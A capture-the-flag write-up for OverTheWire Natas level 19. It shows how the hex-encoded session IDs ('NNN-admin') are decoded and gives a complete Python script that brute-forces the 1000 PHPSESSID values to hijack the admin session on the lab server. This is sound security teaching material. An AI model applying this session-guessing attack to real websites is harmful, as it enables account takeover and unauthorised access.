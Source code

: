 # OverTheWire - Natas - Level 19

[OverTheWire](https://overthewire.org) offers a series of "wargames" that teach
security skills. From their website:

> Natas teaches the basics of serverside web-security.

## Challenge Overview

After discovering the `natas19` password in the previous challenge, it can be
used to log into http://natas19.natas.labs.overthewire.org:

![The Index Page](images/level_19/00_index_page.png)

## Initial Analysis

This challenge page looks very similar to the previous level, and it has new
banner text that says:

> **This page uses mostly the same code as the previous level, but session IDs are no longer sequential...**

The description has now been slightly updated to read:

> Please login with your admin account to retrieve credentials for natas20.

There's still a form with a pair of Username and Password input boxes, plus a
Login button.

Notably there is no longer a `View sourcecode` link!

## Approach Strategy

1. The previous challenge used cookies, so look at those both before and (more
   likely) after entering credentials
1. Figure it out from there!

## Step-by-Step Solution

The first thing to do is open the Developer (F12) Tools in the browser and look
at the cookies:

![Default Cookies](images/level_19/01_default_cookies.png)

There are only two cookies and their domain is `.overthewire.org` - these are
the cookies for logging into the challenge, and not specific to this challenge
itself.

The next step is to try to log in with `admin` and `pencil`:

![Admin and Pencil Credentials](images/level_19/02_admin_pencil.png)

Clicking the `Login` button submits these credentials and now there is a new
`PHPSESSID` cookie

![Session ID Cookie](images/level_19/03_session_id_cookie.png)

Oh boy. That's a big session ID. The previous challenge was about trying session
IDs between 1 and 640, but this one looks huge!

### Session ID Analysis

The first time the form was submitted, the session id is `3535362d61646d696e`.
If the cookie is deleted and the form re-submitted with blank username and
password, the session id `3336382d`, then `3230322d`, then `3130342d`. There is
some kind of pattern to these session IDs!

Looking at these short session IDs, they consist of:

- the digit `3`, followed by something else
- the digit `3`, followed by something else
- the digit `3`, followed by something else
- the digit `2`, followed by `d`

Everything is a digit, except for that `d` at the end, so this is probably
hexadecimal. If we remember from ASCII-ology 101, all the digits have a
hexadecimal code that starts with `3`! So these session IDs, translated from
hexadecimal to their readable values, are:

- `3336382d`: `368-`
- `3230322d`: `202-`
- `3130342d`: `104-`

This is very interesting. Translating that original `admin` / `pencil` session
ID from hexadecimal to readable values gives:

- `3535362d61646d696e`: `556-admin`

Aha! The session ID is a random three digit code, then a dash, and then the
username. So to find an active admin session only requires looking through 1000
different session IDs.

> Note: there is a bug/feature in the challenge where if the three digit code is
> less than 100, it will not have leading zeroes. In other words, the value `1`
> is `31` (not 001 / `303031`), the value 17 is `3137` (not 017 / `303137`),
> etc.

The `PHPSESSID` could be manipulated through the Developer Tools in the browser,
but 1000 session IDs is a lot to check manually. This is something that needs to
be automated: and this can be a very big leap for non-developers.

### Automate the Process

The first step is to decide what technology to use. This could be done with a
shell script and the `curl` command - it would be fairly straightforward with
a `grep` command to look at the responses. However, in previous challenges some
Python scripts were written, and those scripts can be re-used here.

It's best to figure out the steps needed using "pseudocode":

1. Get the `natas19` username and password that are needed to call the web
   server
2. Loop over each of the 1000 PHPSESSID cookies
3. Call the web server with an HTTP request duplicating what happens when the
   page is displayed
4. Check the response from the web server. If it contains "You are logged in as
   a regular user" then continue to the next PHPSESSID. Otherwise print the
   response and stop (this catches both the admin output as well as errors).

#### Step 1: Credentials

Although the password could be stored in the code, it's poor form to publish
passwords for challenges, so for this demonstration the password must be
entered by the user. In Python this looks like:

```python
import getpass

password = getpass.getpass(prompt='Enter password for natas19: ')
```

#### Step 2: Loop over the PHPSESSID values

```python
for i in range(1000):
```

#### Step 3: Web Server Request

```python
import requests

# Convert to hex string: 0 = 30, 1 = 31, 17 = 3137, 124 = 313234, etc
i_hexed = ''.join(f"{ord(digit):02x}" for digit in str(i))
# Append the hex for "-admin": 2d61646d696e
session_id = i_hexed + '2d61646d696e'

print(f'Trying { i }: PHPSESSID={ session_id }')
response = requests.get('http://natas19.natas.labs.overthewire.org/index.php', auth=("natas19", password), cookies={ "PHPSESSID": session_id })
```

#### Step 4: Response Handling

```python
if 'You are logged in as a regular user' not in response.text:
    print(response.text)
    break
```

And that's it! Bringing it all together:

```python
import getpass
import requests

#### Step 1: Credentials
password = getpass.getpass(prompt='Enter password for natas19: ')

#### Step 2: Loop over the PHPSESSID values
for i in range(1000):
    #### Step 3: Web Server Request
    # Convert to hex string: 0 = 30, 1 = 31, 17 = 3137, 124 = 313234, etc
    i_hexed = ''.join(f"{ord(digit):02x}" for digit in str(i))
    # Append the hex for "-admin": 2d61646d696e
    session_id = i_hexed + '2d61646d696e'

    print(f'Trying { i }: PHPSESSID={ session_id }')
    response = requests.get('http://natas19.natas.labs.overthewire.org/index.php', auth=("natas19", password), cookies={ "PHPSESSID": session_id })

    #### Step 4: Response Handling
    if 'You are logged in as a regular user' not in response.text:
        print(response.text)
        break
```

Running this command, and waiting for many HTTP requests, produces the
`natas20` password.

## Key Takeaways

- It's important to never trust user-controlled data
- It's secure to store session data on the server, but the session ID must not
  be guessable

## Beyond the Challenge

It's always a good idea to think about other solutions.

The Python code above will work, but there is a lot of room for improvement. It
is fine for a "one off" challenge, but refactoring the code would make it better
and perhaps more re-usable. As an exercise the file
[solution.py](files/level_19/solution.py):

- sets up constants for things like the URL and password characters
- breaks the code into small single-purpose functions
- adds error handling and logging
